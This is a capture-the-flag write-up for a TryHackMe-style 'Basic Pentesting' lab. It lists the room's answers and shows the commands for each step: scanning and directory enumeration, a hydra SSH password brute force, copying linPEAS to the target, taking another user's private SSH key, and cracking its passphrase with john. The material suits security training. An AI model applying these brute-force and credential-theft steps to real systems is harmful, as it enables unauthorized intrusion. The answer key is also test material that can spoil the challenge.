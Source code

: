 ```yaml
---
layout: post
title: Basic Pentesting
categories: [CyberSecurity, CTF]
tags: [CTF, thm, easy, nmap]
---
```

<style>
y { color: Yellow }
g { color: Green }
</style>
# Basic Pentesting

### Task 1 Web App Testing and Privilege Escalation


 

In these set of tasks you'll learn the following:


 

brute forcing

hash cracking

service enumeration

Linux Enumeration


 

#### Questions:

1. What is the name of the hidden directory on the web server(enter name without /)?

```

development

```

2. What is the username?

```

jan

```

3. What is the password?

```

armando

```

4. What service do you use to access the server(answer in abbreviation in all caps)?

```

SSH

```

5. What is the name of the other user you found(all lower case)?

```

kay

```

6. What is the final password you obtain?

```

heresareallystrongpasswordthatfollowsthepasswordpolicy$$

```


 

---


 

### MyWalk:

Attacking: 10.10.40.46

Target:


 

Beginning with an nmap scan, and save the results on nmap/initial for future reference:

```bash

nmap -T4 -sC -sV -Pn -oN nmap/initial 10.10.40.46

```

Now I'll enumerate any directories available:

```bash

gobuster dir --url http://10.10.40.46 -w //usr/share/wordlists/dirb/common.txt | tee gobuster.txt

```

<span style="color:green;">Q1 done</span>


 

http://10.10.40.46/development give us 2 files referencing development messages between two users.

Lets use enum4linux:

```bash

/usr/share/enum4linux/enum4linux.pl -a 10.10.40.46 | tee enum4linux.log

```

Users 'kay' and 'jan' found.

<span style="color:green;">Q2 & Q5 done</span>


 

Now I try to get the 'jan' password using brute force, and get answer to Q3:

```bash

hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.40.46 -t 4

```

jan:armando <span style="color:green;">Q3 done</span>


 

Now I'll try to login with shh credentials:

```bash

ssh jan@10.10.40.46

```

After sucessfull connection <span style="color:green;">Q4 done</span>. We will try some commands now:

```bash

jan@basic2:~$ ls -al

total 12

drwxr-xr-x 2 root root 4096 Apr 23 2018 .

drwxr-xr-x 4 root root 4096 Apr 19 2018 ..

-rw------- 1 root jan 47 Apr 23 2018 .lesshst


 

jan@basic2:~$ pwd

/home/jan


 

jan@basic2:~$ cat .lesshst

cat: .lesshst: Permission denied


 

jan@basic2:~$ cat /etc/passd

cat: /etc/passd: No such file or directory


 

jan@basic2:~$ sudo -l

[sudo] password for jan:

Sorry, user jan may not run sudo on basic2.


 

jan@basic2:~$ cd ..

jan@basic2:/home$ cd kay

jan@basic2:/home/kay$ cat pass.bak

cat: pass.bak: Permission denied


 

jan@basic2:/home/kay$ cat .viminfo

cat: .viminfo: Permission denied

```

Nothing seems to work, so at this point we should try running Priviledge Escalation Awsome Script:

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

After install the linpeas.sh script in our directory /opt/linPEAS we we'll run the command:

```bash

scp /opt/linPEAS/linpeas.sh jan@10.10.40.46:/dev/shm

```

Checking the target:

```bash

jan@basic2:~$ cd /dev/shm

jan@basic2:/dev/shm$ ls

linpeas.sh

```

Run it (on target):

```bash

./linpeas.sh | tee linlog.txt

```

Found a id_rsa key. Past it in a file using nano and mark it as read only by us.

Now lets connect with the key of 'kay' user:

```bash

sudo ssh -i kay_id_rsa kay@10.10.40.46

```

At this point an error occurred because the key format listed in the linpeas result was incorrect, so lets extract it directly from the directory: /home/kay/.ssh/id_rsa


 

After trying to connect again it asks for a paraphrase so we need to use johntheripper to find the pass.

First I need to prepare the key to use in johntheripper, with the ssh2john.py script, and save it in the forjohn.txt:

```bash

/usr/share/john/ssh2john.py kay_id_rsa > forjohn.txt

```

Now run john with the key against the rockyou.txt:

```bash

john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt

```

we can see the paraphrase is 'beeswax'


 

Lets try to login again as kay:

```bash

sudo ssh -i kay_id_rsa kay@10.10.40.46

```

Entering the paraphrase password 'beeswax' and success!

Now is possible to read the pass.bak file and <span style="color:green;">Q6 done</span>


 

---

#### Tools:

- nmap

- gobuster

- enum4linux

- hydra

- linPEAS

- johntheripper